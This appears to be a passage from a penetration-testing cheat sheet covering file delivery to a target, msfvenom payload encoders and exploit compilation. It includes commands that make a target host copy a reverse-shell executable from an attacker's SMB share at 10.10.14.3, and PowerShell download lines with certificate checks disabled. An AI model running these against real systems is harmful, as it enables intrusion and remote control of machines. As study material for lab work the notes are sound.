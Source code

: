 ```powershell
http://carnal0wnage.attackresearch.com/2017/08/certutil-for-delivery-of-files.html

# Powershell method
(new-object System.Net.WebClient).DownloadString("http://www.mysite.com") # replicate Curl
(new-object System.Net.WebClient).DownloadData("http://www.mysite.com")   # replicate Curl
(new-object System.Net.WebClient).DownloadFile("http://www.mysite.com", 'C:\Temp\file') # replicate Wget
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; # ignore SSL warnings (add to lines above)

# Powershell method
$ impacket-smbserver files `pwd`            # @KALI: Set up a SMB server with files=share `pwd`=workingdir.
PS> xcopy \\10.10.14.3\files\rshell.exe .   # @TARGET: Copy rshell.exe from remote share to current dir.
```

# MSFVENOM PAYLOADS

Msfvenom commands:
* https://netsec.ws/?p=331

Encoders:
```bash
$ [msfvenom commands] -e x86/shikata_ga_nai
$ [msfvenom commands] -e x86/alpha_mixed
```

# COMPILING EXPLOIT CODE

Compilation tips:
* `./exploit` results in errors: compile in the host itself, Kali box or another machine.

Compilation commands:
```bash
# Compile Linux cross-architecture ELF (both 32/64bit)
$ gcc -m32 -Wl,--hash-style=both exploit.c -o exploit

# Compile to Windows .exe from Linux
$ i686-w64-mingw32-gcc 25912.c -o exploit.exe -lws2_32
$ wine exploit.exe

# Generate .exe from Python file in Windows
$ python pyinstaller.py --onefile <pythonscript>
```


# OTHER THINGS

__Maintaining access to a box with unstable shell__
